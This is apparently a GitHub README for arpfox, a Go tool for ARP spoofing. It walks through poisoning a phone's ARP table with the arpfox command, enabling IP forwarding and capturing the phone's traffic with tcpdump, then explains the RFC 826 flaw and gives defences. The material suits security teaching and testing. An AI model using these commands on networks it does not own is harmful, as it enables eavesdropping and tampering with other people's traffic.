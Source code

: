 # arpfox

`arpfox` is an [arpspoof](http://linux.die.net/man/8/arpspoof) clone written in
Go which creates and injects special [ARP
packets](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)
that can be used to poison
[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) cache tables.

A security researcher can run `arpfox` against any machine on the LAN to pose
as any other host, this is an ancient technique known as [ARP
spoofing](https://en.wikipedia.org/wiki/ARP_spoofing) and is commonly used to
eavesdrop communications on a LAN.

The machine that receives traffic can record, censor, alter or selectively drop
network packets that pass through it.

## Building

Requisites:

```
sudo dnf install -y libpcap-devel
```

```
go get github.com/xiam/arpfox
arpfox -h
```

## A practical example

Alice is a security researcher, and she's going to redirect and watch traffic
coming from her own phone on her machine in order in order to test if the phone
and if a local network are susceptible to ARP spoofing.

Alice's machine is already on the same LAN as the phone, and she knows the IP
addresses of both the phone and of the router.

```
Router: 10.0.0.1
Phone: 10.0.0.101
```

Alice will attempt to make her machine pose as the router in order for the
phone to send all traffic to it.

If she succeeds, the phone will start sending traffic marked for `10.0.0.1` to
Alice's machine, which will just ignore the packets because these packets have
a different destination. In order to instruct the machine to forward the
packets to the legitimate destination instrad of dropping them, Alice does
something like:

```
# OSX
sudo sysctl -w net.ipv4.ip_forward=1

# FreeBSD
sudo sysctl -w net.inet.ip.forwarding=1

# Linux
sudo sysctl -w net.ipv4.ip_forward=1
```

And besides forwarding, Alice also wants to see what's going on with
unencrypted traffic, so she instructs `tcpdump` to display packets coming from
the phone:

```
tcpdump -i en0 -A -n "src host 10.0.0.101 and (dst port 80 or dst port 443)"
```

At this point, the phone's ARP table looks like this:

```
# 10.0.0.1's legitimate MAC address on the phone.
? (10.0.0.1) at 11:22:33:44:55:66 on wlan0 expires in 857 seconds [ethernet]
```

and she's prepared to use `arpfox`:

```
# arpfox -i [network interface] -t [target] [host]
arpfox -i en0 -t 10.0.0.101 10.0.0.1
```

`-t 10.0.0.101 10.0.0.1` tells `arpfox` to send unsolicited ARP replies to the
phone (`10.0.0.101`) posing as the router (`10.0.0.1`).

After a few seconds, the phone's ARP table gets altered and the phone now
thinks Alice's machine is the router:

```
# 10.0.0.1's MAC address was changed on the phone.
? (10.0.0.1) at 11:22:de:ad:be:ef on wlan0 expires in 1193 seconds [ethernet]
```

Finally, she takes the phone and goes to `example.com`, `tcpdump` starts
showing traffic:

```
...
GET / HTTP/1.1
Host: example.org
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1 (KHTML, like Gecko) CriOS/52.0.2743.84 Mobile/13G36 Safari/601.1.46
Accept-Language: en-us
Cache-Control: max-age=0
Connection: keep-alive
...
```

## Why does this happen?

[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) is the
protocol most computer use to translate a [MAC
address](https://en.wikipedia.org/wiki/MAC_address) into an [IP address
](https://en.wikipedia.org/wiki/IP_address). The original proposal is described
in [RFC826](https://tools.ietf.org/html/rfc826).

The part that is flawed is described in the "Packet Reception" section:

> Notice that the <protocol type, sender protocol address, sender
> hardware address> triplet is merged into the table before the
> opcode is looked at.  This is on the assumption that communcation
> is bidirectional; if A has some reason to talk to B, then B will
> probably have some reason to talk to A.  Notice also that if an
> entry already exists for the <protocol type, sender protocol
> address> pair, then the new hardware address supersedes the old
> one.  Related Issues gives some motivation for this.

The opcode they're talking about is what tells if the packet is a request or a
reply, nothing verifies that a reply is associated with a request nor that a
request was made in the first place.

It only takes an unsolicited ARP packet of type reply to make a device change
it's ARP table, this includes adding new addreses and replacing old ones.

## How can I protect against this?

There are [some programs](https://en.wikipedia.org/wiki/ARP_spoofing#Defense)
that can help you against ARP spoofing. Sometimes programs like these may be
inconvenient because we usually roam over different networks all the time and
these programs require usto hack stuff before actually starting being
productive. Keeping an static ARP table is simply not practical enough for most
users.

One thing you can do, though, is assuming things like these could happen and
try to encrypt your communications, specially on untrusted networks where any
node, even the router, can be actively recording traffic without your consent.
While this doesn't prevent attackers from keeping records on your
communications, it does prevent them from knowing the actual contents of it.

You don't have to use a VPN to stay secure, you can build a proxy with SSH and
configure your programs to use it:

```
ssh -D 9999 user@myownserver.org
```

A more advanced example could be found
[here](https://www.digitalocean.com/community/tutorials/how-to-route-web-traffic-securely-without-a-vpn-using-a-socks-tunnel).
